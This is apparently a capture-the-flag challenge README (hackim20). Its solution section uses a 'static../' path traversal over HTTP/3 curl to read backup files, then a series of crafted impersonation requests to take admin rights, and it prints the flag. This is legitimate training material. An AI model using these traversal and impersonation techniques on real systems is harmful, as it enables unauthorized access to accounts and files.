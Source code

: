 ## Run

1. Should set `server.crt` and `server.key` in `docker-compose.yml` properly
2. ./start.sh

## Solution

1. Build curl with http3 - https://github.com/curl/curl/blob/master/docs/HTTP3.md
2. Lfi to get backup files - ./curl --http3 https://localhost:8443/static../
3. You will find the Docs in backup dir. ./curl --http3 https://localhost:8443/static../backup/links.txt
4. Perform a downgrade attack on the admin

```
Create a user
http://192.168.29.182:3000/check.php?signup=true&name=asd
Downgrade admin to user
http://192.168.29.182:3000/check.php?impersonator=asd-admin&impersonatee=asd
impersonate user to admin
http://192.168.29.182:3000/check.php?impersonator=asd&impersonatee=asd-admin
Make the admin umimpersonate
http://192.168.29.182:3000/check.php?unimpersonate=asd-admin
Get the flag
http://192.168.29.182:3000/check.php?status=asd
```


## Flag
hackim20{We_Never_Thought_it_Was_That_Vulnerable}

